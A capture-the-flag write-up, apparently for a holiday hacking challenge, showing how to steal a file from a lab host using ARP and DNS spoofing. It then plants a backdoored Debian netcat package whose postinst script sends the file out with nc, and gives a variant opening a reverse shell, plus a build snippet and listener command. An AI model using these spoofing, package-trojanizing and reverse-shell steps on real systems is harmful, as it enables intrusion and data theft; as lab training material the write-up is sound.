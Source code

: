 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/spoof.py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.
Furthermore this script spoofs DNS replies for queries sent to the spoofed host and does always return A records pointing to it's own local IP address.
The scripts takes the IP address of the spoofed host as argument, to here is has to be called with `./spoof.py 10.6.6.53`.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```

A Node.js HTTP server was started using  `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include a netcat command in the postinst script to send the text file to our local host:
`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.

The snippet below automatically inserts the correct IP address of the local host and places the package in the right location of the web tree:
```
cd debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb

```
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) (resp. receive the reverse shell connection).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQyNTc4ODc0MywxMjcyNjU2NDE5LDg1OD
E4ODkyOSwxMDkyNzg1MzIxLC0yMDYyNjc1Mjk3LC02MTI4OTc3
OTksLTg1MjcyMjcwMywxNzU4MjQzNjc3LDE2MzQzOTQ5NDEsMT
IwNDQyNjUzOSwtMTc5ODQxNTg5NiwtODc4MzkyMjE2LDUxNDIw
OTE1OV19
-->